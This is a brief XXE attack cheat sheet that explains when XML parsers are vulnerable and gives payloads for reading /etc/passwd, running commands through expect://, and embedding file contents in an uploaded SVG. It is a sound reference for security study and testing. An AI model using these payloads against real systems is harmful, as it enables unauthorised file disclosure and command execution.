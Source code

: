 An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.

# Overview
- The application parses XML documents.
- Tainted data is allowed within the system identifier portion of the entity, within the document type declaration (DTD).
- The XML processor is configured to validate and process the DTD.
- The XML processor is configured to resolve external entities within the DTD.
 
# Payloads
## LFI
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<foo>&xxe;</foo>

OR

<!DOCTYPE foo [<!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
```
## RCE
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>
```

# XXE via Image File Upload

1. Create an SVG file with a content such as:  
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
2. Upload the SVG
3. Look for where the SVG would be displayed and the output should be embedded into the image.

# References
- [https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing#](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing#)
- [https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-advanced-xxe-vulnerabilities](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-advanced-xxe-vulnerabilities)